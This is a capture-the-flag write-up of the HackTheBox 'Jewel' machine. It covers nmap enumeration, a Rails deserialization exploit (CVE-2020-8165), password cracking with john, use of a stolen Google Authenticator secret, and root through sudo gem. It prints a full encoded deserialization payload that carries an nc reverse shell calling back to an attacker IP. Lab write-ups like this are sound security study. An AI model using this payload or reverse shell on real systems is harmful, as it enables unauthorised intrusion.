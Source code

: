 ```yaml
---
date: 2021-02-13 23:48:05
layout: post
title: HackTheBox Jewel Writeup
subtitle: Hackthebox Jewel Writeup
description: >-
  in this blog i've explained how to solve Jewel machine in hackthebox
image: https://i.ibb.co/Q9tCD1K/logo.png
optimized_image: https://i.ibb.co/Q9tCD1K/logo.png
category: hackthebox
tags:
  - hackthebox
  - Jewel
author: Ahmed Fatouh
paginate: true
---
```


![](https://i.ibb.co/Q9tCD1K/logo.png)

# []()Methodlogy

* Nmap Scan
* Enumerating the web service
* found a version of ruby and exploit of it.
* server side template injection exploitation
* found the password of user bill in /var/backup
* found the secret token of Google Authenticator
* using sudo -l leads us to final part!.

# []()Nmap Scan

> **as always, i’ll do nmap scan to find out which services running in this machine, and i found these services.**

* **22 for ssh service.**
* **8000 for http**
* **8080 for nginx**

> **nmap -Pn -sC -sV -oN scan.txt 10.10.10.211**

```ruby

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)
|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)
|_  256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)
8000/tcp open  http    Apache httpd 2.4.38
|_http-generator: gitweb/2.20.1 git/2.20.1
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
| http-title: jewel.htb Git
|_Requested resource was http://jewel.htb:8000/gitweb/
8080/tcp open  http    nginx 1.14.2 (Phusion Passenger 6.0.6)
|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
|_http-title: BL0G!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

# []()Web Service Enumeration

* **let's add jewel.htb to our /etc/hosts and start enumerating the web service.**

> **i've found a basic blog on port 8080**

![](https://i.ibb.co/DVznD7p/basic-web-page.png)

* let's sign up and look deeper.

* here i'm logged in.

![](https://i.ibb.co/mXQQNP0/logged-in.png)

> **let's check the port 8000 now.**

![](https://i.ibb.co/D4QSrHB/port-8000.png)

> **it's a .git directory, let's check if there is any good things for us.**

> **click on .git and click on intial commit and yoi will find some Gem files so let's check it.**

![](https://i.ibb.co/CtdbzT0/gem-files.png)

> **in the gem file i found the ruby version**.

![](https://i.ibb.co/WxxZLx9/ruby-version.png)

> **and there's exploit for this version**

* Link: [Ruby On Rils](https://github.com/masahiro331/CVE-2020-8165)

![](https://i.ibb.co/qkHqBD3/ruby-exploit.png)

> **now we need to register a new user and put the payload in the username field to get a reverse shell.**

> **let's register a new user and click on profile and click edit and click save and intercept the request with burpsuite**.

![](https://i.ibb.co/JmP9ZpR/burp-suite.png)

> **put this payload in username filed with changing the IP address.**

* payload: **%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.XX.XX+9001+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T**

* **send the request twice and then refresh the web page.**

* **don't forget to start nc listener.**

![](https://i.ibb.co/R6NFYFC/reverse-shell.png)

* **nice!, we got a reverse shell now.**

# []()Privilege Escalation

> **after some eumeration i found the password of the user bill in /var/backups**

![](https://i.ibb.co/zQJw7YS/cat-comm.png)

![](https://i.ibb.co/pZgZn07/bill-pass.png)

* **let's crack the password now.**

> **sudo john --wordlist=/usr/share/wordlists/rockyou.txt pass**

![](https://i.ibb.co/CHt410K/pass-cracked.png)


> **when you try sudo -l you will see that it's request Verification code.**

![](https://i.ibb.co/93H4Hsy/verify.png)

> **there is a hidden file in home directory of bill which contain a secret token of google authenticator**.

![](https://i.ibb.co/1b18YVs/google-auth.png)

> **so we need to add the google authnticator [GAuth addon](https://chrome.google.com/webstore/detail/gauth-authenticator/ilgcnhelpchnceeipipijaljkblbcobl?hl=en) to google chrome and put the secret token in it and it will generate the OTP for us.**

![](https://i.ibb.co/PZ0CFYh/google-auth-add.png)

* **and here's the OTP**

![](https://i.ibb.co/k0pxQht/otp.png)

> **let's check "sudo -l" again**.

![](https://i.ibb.co/jkqsHQc/operation-not-per.png)

> **in this part i spend a day to identify my mistake but i didn't find anything until my friend told me this machine is all about sync.**

* **let's check the time and the date.**

![](https://i.ibb.co/rc1bfjz/timedatectl.png)

> **it's different date and time from my local date and time, so we need to change it.**

![](https://i.ibb.co/ggJ2g4Q/time-zone-change.png)

* **let' check again**

![](https://i.ibb.co/94QxWM0/bill-gem.png)

> **nice!, we will use gem command to get root ,let's open gtfobins now.**

![](https://i.ibb.co/FHpdq3F/gem-gtfobins.png)

> **sudo gem open -e "/bin/sh -c /bin/sh" rdoc**

![](https://i.ibb.co/q0dGffv/rooted.png)

* **rooted**

* **Thanks For Reading**

* **cheers!**

 <script src="https://www.hackthebox.eu/badge/103789"></script>





